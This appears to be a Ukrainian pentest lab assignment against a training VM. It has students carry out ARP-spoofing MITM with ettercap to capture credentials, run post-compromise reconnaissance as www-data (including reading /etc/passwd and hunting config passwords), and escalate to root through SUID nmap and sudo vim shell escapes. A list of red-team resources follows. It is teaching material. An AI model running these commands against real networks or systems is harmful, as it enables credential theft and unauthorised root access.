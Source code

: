 # 🛡️ Lab 5: Мережа + підвищення

## 1. 🕵️‍♂️ MITM атака з Ettercap (ARP Spoofing)

### 🔹 Опис завдання:

Провести ARP Spoofing-атаку за допомогою `Ettercap`, перехопити трафік між атакованою машиною та шлюзом.

### 🔹 Кроки виконання:

1. Запусти `Ettercap` у графічному режимі або CLI:
   ```bash
   ettercap -T -M arp:remote /victim_ip/ /gateway_ip/
   ```
2. Визнач жертву (Metasploitable2) та шлюз (наприклад, роутер або Kali).
3. Запусти атаку, проаналізуй отримані пакети tcpdump -i eth0 host 192.168.0.0 -w dump.pcap - може вдастся перехопити облікові записи під час авторизації у локальний або публічний ресурс.

### 🔹 Що надати:

- Скріншоти конфігурації Ettercap
- Перехоплений логін/пароль (якщо вийде)
- Проблеми (наприклад: дублікати IP, захист OS)

---

## 2. 🧙‍♂️ Прихована розвідка з правами www-data

### 🔹 Опис завдання:

Після компрометації вебсервера (наприклад, через LFI або RCE), дослідити систему з правами `www-data`.

### 🔹 Цілі:

- Знайти користувачів
- Перевірити доступні конфіги
- Зібрати інформацію про процеси та мережу
- Передивитись історію і можливі запущені процеси та права на них

### 🔹 Команди:

```bash
whoami
id
cat /etc/passwd
ps aux
netstat -tulpan
find / -type f -name '*.conf' 2>/dev/null
```

### 🔹 Що надати:

- Скріншоти команд і виводу
- Виявлені цікаві конфіги або хардкод-паролі

---

## 3. 🔓 Підвищення привілеїв через SUID

### 🔹 Опис завдання:

Знайти бінарники з правами SUID і використати їх для отримання доступу до root.

### 🔹 Пошук:

```bash
find / -perm -4000 -type f 2>/dev/null
```

### 🔹 Популярні вектори:

- `/bin/bash`
- `/usr/bin/nmap`
- `/usr/bin/find`
- `/usr/bin/python`

### 🔹 Приклад експлуатації:

```bash
# для nmap
nmap --interactive
!sh
```

### 🔹 Що надати:

- Список знайдених SUID
- Метод експлуатації
- Доказ root-доступу (`whoami`)

---

## 4. 🧨 Підвищення прав через sudoers

### 🔹 Опис завдання:

Перевірити доступні sudo-команди для поточного користувача.

### 🔹 Команди:

```bash
sudo -l
```

### 🔹 Якщо доступно щось типу:

```bash
(root) NOPASSWD: /usr/bin/vim
```

### 🔹 Використати:

```bash
sudo vim -c '!sh'
```

### 🔹 Що надати:

- Результат `sudo -l`
- Команди експлуатації
- `id`/`whoami` як root

---

## 📋 Ресурси для Red Team та Pentest перевірок

### 🔹 Чеклісти та гіди:

- [Vulnerability dictionary](https://www.cobalt.io/vulnerability-wiki/v5-validation-sanitization)
- [Awesome-Hacking](https://github.com/Hack-with-Github/Awesome-Hacking)
- [Certified Red Team Professional (CRTP)](https://dev-angelist.gitbook.io/crtp-notes)
- [HackTricks](https://book.hacktricks.wiki/en/welcome/about-the-author.html)
- [Pentest Book](https://pentestbook.six2dez.com/enumeration/ports)
- [Internal All The Things](https://swisskyrepo.github.io/InternalAllTheThings/)
- [Application Security Cheat Sheet](https://0xn3va.gitbook.io/cheat-sheets/)
- [OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/index.html)
- [PENTESTING-BIBLE](https://github.com/oxfemale/PENTESTING-BIBLE)
- [Kubernetes Goat](https://madhuakula.com/kubernetes-goat/docs/)
- [CSbyGB's Pentips](https://csbygb.gitbook.io/pentips)
- [Pentration Testing, Beginners To Expert!](https://github.com/xalgord/Massive-Web-Application-Penetration-Testing-Bug-Bounty-Notes)
- [Offensive Security Cheatsheet](https://cheatsheet.haax.fr/)
- [HighOn.Coffee](https://highon.coffee/blog/)
- [Red Team Guides](https://redteam.guide/docs/guides/)
- [Cyber-Bookmarks](https://x0rb3l.github.io/Cyber-Bookmarks/bookmarks.html)
- [IT-Security](https://sushant747.gitbooks.io/total-oscp-guide/content/)

---

✅ **Результати надати у вигляді скріншотів із короткими поясненнями:**

- Що виконано
- Які проблеми виникли (якщо були)
- Який результат досягнуто

